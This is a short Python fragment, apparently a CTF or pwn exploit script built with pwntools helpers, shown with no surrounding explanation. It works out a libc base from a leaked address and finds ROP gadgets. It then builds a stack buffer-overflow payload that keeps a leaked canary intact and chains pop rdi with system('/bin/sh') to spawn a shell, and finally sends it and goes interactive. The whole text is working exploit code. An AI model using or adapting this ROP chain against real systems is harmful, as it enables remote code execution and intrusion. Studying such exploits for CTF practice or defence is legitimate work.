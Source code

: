 ```python
print("leak_stack",hex(leak_stack))
libc_base = leak_stack + 0x200090
print("libc base",hex(libc_base))
libc.address=libc_base
# dbg()

# ROP
rop = ROP(libc)
ret = rop.find_gadget(['ret'])[0]
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
bin_sh = next(libc.search(b'/bin/sh'))
system = libc.sym['system']

# attack payload 
offset = 0x48
payload = b'CHUNK 1 1 ' 
payload += b'a' * offset 
payload += p64(canary)
payload += b'b' * 8
payload += p64(ret)
payload += p64(pop_rdi)
payload += p64(bin_sh)
payload += p64(system)

s(payload)

ti()
```